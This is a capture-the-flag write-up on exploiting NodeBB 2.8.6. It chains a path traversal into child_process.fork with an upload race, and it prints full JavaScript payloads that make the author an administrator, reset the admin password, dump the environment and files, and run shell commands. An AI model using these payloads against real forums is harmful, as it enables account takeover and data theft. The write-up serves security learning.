




# Is 10.0 really 10.0?

We are presented with a website on `http://your-instance-ip:10008` refered to as `http://tdc.ctf:10008`.

The website is version 2.8.6 of [NodeBB](https://nodebb.org/), a forum software.

A quick google search reveals the first vulnerability <https://github.com/advisories/GHSA-vh2g-6c4x-5hmp> but with no exploit readily available.

By cloning the repo and browsing the source at the specific patch commit `ec58700f6dff8e5b4af1544f6205ec362b593092` we can investigate the vulnerability.

We notice the changes in `src/api/users.js` and `src/socket.io/user/profile.js` specifically remove the ability to control the path to a `child_process.fork` call:

```js
const child = require('child_process').fork(`./src/user/jobs/export-${type}.js`, [], {
    env: process.env,
});
```

This allows us to run any node script in the context of the server somehow, to actually perform the exploit you need to send the API request over an authenicate websocket connection, and since the actual protocol used is wrapped by Socket.IO the easiest way to interact with it is in your browser, while being logged in.

So created a user `test` with the password `supertest` we now are able to send the following request using devtools.

```js
window.socket.emit('user.exportProfile', { uid: 2, type: '<path traversal here>' })
```

Note the incremental UID here.

Now we just need to find a way to upload our exploit script to the server, which is easier said than done.

The `test` user we created is not an administrator, and the only way to upload anything to the server requires elevated permissions inside the BB system, we as a normal user are limited to certain image formats.

Initially i attempted to craft a polyglot image, since the primary file upload endpoint provided to our test user only accepted images, but it primarly checked the mimetype before performing any checks so we could in theory bypass both the image parser and the mimetype check by crafting a polyglot image.

But the secondary hint given to us in this challenge comes in the form of the ability to see a file listing of the `tmp` directory on the server, which initially contains some non-suspecting nodejs artifacts with little use to us.

What we need is a way to upload a file to the server with the correct extension, and use the provided `/assets/vendor/exploithelp/tryharder.txt` endpoint to retrieve the file name and path.

If we pay attention to the primary file uploading middleware, the one which handles the creation and deletion of the temporary files we see something peculiar:

```js
try {
    const images = [];
    for (const fileObj of files) {
        /* eslint-disable no-await-in-loop */
        images.push(await filesIterator(fileObj));
    }

    helpers.formatApiResponse(200, res, { images });

    return images;
} catch (err) {
    return helpers.formatApiResponse(500, res, err);
} finally {
    deleteTempFiles(files);
}
```

> <https://github.com/NodeBB/NodeBB/blob/7ca37bd6c3b6c39cb40c34b5e9ac1824580e6281/src/controllers/uploads.js#L47>

The `deleteTempFiles` function will always be called no matter which return block is hit, and it will attempt to delete the files provided to it.

What we can do is find a upload endpoint that lets us upload a file with a custom extension as many times as possible until the ratelimiting kicks in, and then we will see something interesting happening:

The `/api/v3/topics/<uuid>/thumbs` endpoint is probably our best bet due to the fact it has the least strict validation middleware, and it has a higher ratelimit than the other endpoints. We can perform the first (valid) upload with a valid image, then we can manually extract the UUID, Cookie and other request headers from the request to be used in our spamming script.



> See [this python file](spam_upload.py) for the code.



Lots of javascript files suddenly appeared!?

That definitely isn't what the code attempted to do, but it is a result of JavaScripts interesting behavior with regards to asynchronous code.

Digging deeper into the NodeBB codebase we find a shell executable called `nodebb` that performs certain database actions easily for us, at this point in the process i am not sure where i'll find the flag, so we an use this tool to give us additional permissions on the server such as changing the password for the `admin` user with UID 1.

It is also possible to set up a reverse shell from this point on, but i opted to just give myself admin permissions and dump some additional info from the disk in my first attempt.

```js
const fs = require('fs');
const child_process = require('child_process');

// Run node /usr/src/app/nodebb user make admin 2

child_process.execSync('node /usr/src/app/nodebb user make admin 2');
child_process.execSync('node /usr/src/app/nodebb user reset 1 --password superadmin');

const result = {};

result.env = process.env;

function read_directory_and_files(path, filePattern) {
    const files = fs.readdirSync(path).filter(file => file.match(filePattern));

    const result = {};

    for (const file of files) {
        result[file] = fs.readFileSync(path + file, 'utf8');
    }

    return result;
}

const dirs = [
    '/',
    '/usr/src',
    '/usr/src/app',
];

for (const dir of dirs) {
    result[dir] = [
        read_directory_and_files(dir, /.*\.txt/),
        read_directory_and_files(dir, /.*flag.*/),
    ];
}

fs.writeFileSync('/usr/src/app/public/uploads/files/HACKED.txt', JSON.stringify(result));
```

> Initial payload, writing output to a publically accessible file.

Before constructing this payload, i had obviously experimented quite a lot with my own local instance, but when i invoked the exploit via. the websocket connection i was greeted by this empty HACKED.txt:

```json
{
    "env": {
        "NODE_VERSION": "18.14.0",
        "HOSTNAME": "766caac60fb2",
        "YARN_VERSION": "1.22.19",
        "daemon": "false",
        "HOME": "/home/node",
        "PATH": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PWD": "/usr/src/app",
        "NODE_ENV": "production",
        "silent": "false",
        "CONFIG": "/usr/src/app/config.json",
        "isPrimary": "true",
        "isCluster": "false",
        "port": "4567",
        "VIPSHOME": "/target"
    },
    "/": [
        {},
        {}
    ],
    "/usr/src": [
    {},
    
    ],
    "/usr/src/app": [
        {},
        {}
    ]
}
```

Certainly not very reassuring, but now we have changed the password for the `admin` user, so we can log in and see if we can find anything interesting.



I decided to upload additional payloads using this general format instead of again setting up a revshell to explore the system, where we quickly find the flag in the unconventional `/home/node/flag.txt` location.

```js
const fs = require('fs');
const child_process = require('child_process');

const { exec } = child_process;

function runcommandandputoutputinpublic(command) {
    exec(command, (err, stdout, stderr) => {
        if (err) {
            console.log(err);
        }
        
        const result = {
            stdout,
            stderr
        };

        // Write to /usr/src/app/public/uploads/files/output.json

        fs.writeFileSync('/usr/src/app/public/uploads/files/output.json', JSON.stringify(result, null, 4));
    });
}

runcommandandputoutputinpublic('cat /home/node/flag.txt');
```

Where we finally get to find the flag :)



While i was not able to complete this in time for the CTF, it was a really interesting challenge with a lot of potential, even without our trusty `ls.sh`.

```sh
while true
do
	ls -al /tmp > /usr/src/app/public/vendor/exploithelp/tryharder.txt
	sleep 2
done
```

> ls.sh
